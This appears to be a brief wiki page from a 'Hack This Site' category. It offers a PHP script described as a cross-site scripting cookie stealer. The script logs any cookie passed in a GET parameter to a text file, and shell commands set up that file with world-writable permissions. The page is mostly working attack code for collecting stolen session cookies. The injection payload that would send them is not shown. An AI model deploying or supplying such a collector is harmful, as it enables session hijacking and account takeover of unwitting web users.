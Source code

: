 ```yaml
---
categories:
 - Security
---
```

This is a cross-site-scripting, script that steals a cookie.

    <?php
    $cookie = $HTTP_GET_VARS["cookie"];
    $file = fopen('cookielog.txt', 'a');
    fwrite($file, $cookie . "\n\n");
    ?>

    touch cookielog.txt
    chmod 777 cookielog.php

[Category:Hack This Site](Category:Hack This Site "wikilink")
